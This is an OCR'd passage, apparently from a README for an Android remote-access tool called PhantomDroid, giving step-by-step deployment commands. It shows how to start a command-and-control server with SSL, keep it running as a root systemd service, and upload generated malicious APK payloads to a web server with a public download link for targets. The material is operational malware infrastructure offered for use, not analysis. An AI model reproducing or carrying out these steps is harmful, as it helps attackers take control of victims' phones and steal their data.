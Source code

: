 ### **Step 5: C2 Server Deployment**

#### **5.1 Start C2 Server**
```bash
# Start C2 server with SSL
python3 core/c2_server.py --host 0.0.0.0 --port 8080 --ssl --cert /etc/letsencrypt/live/yourdomain.com/fullchain.pem --key /etc/letsencrypt/live/yourdomain.com/privkey.pem

# Start in background with screen
screen -S phantomdroid-c2
python3 core/c2_server.py --host 0.0.0.0 --port 8080 --ssl
# Press Ctrl+A, then D to detach

# Start with systemd service
sudo nano /etc/systemd/system/phantomdroid.service
```

#### **5.2 Systemd Service Configuration**
```bash
[Unit]
Description=PhantomDroid C2 Server
After=network.target

[Service]
Type=simple
User=root
WorkingDirectory=/root/PhantomDroid
ExecStart=/usr/bin/python3 core/c2_server.py --host 0.0.0.0 --port 8080 --ssl
Restart=always

[Install]
WantedBy=multi-user.target

# Enable and start service
sudo systemctl enable phantomdroid
sudo systemctl start phantomdroid
sudo systemctl status phantomdroid
```

### **Step 6: Payload Deployment**

#### **6.1 Web-based Deployment**
```bash
# Access web interface
https://c2.yourdomain.com

# Upload payload to web server
scp output/phantom_http_*.apk root@YOUR_VPS_IP:/var/www/html/

# Create download link
https://yourdomain.com/phantom_http_20250810_110000.apk
```
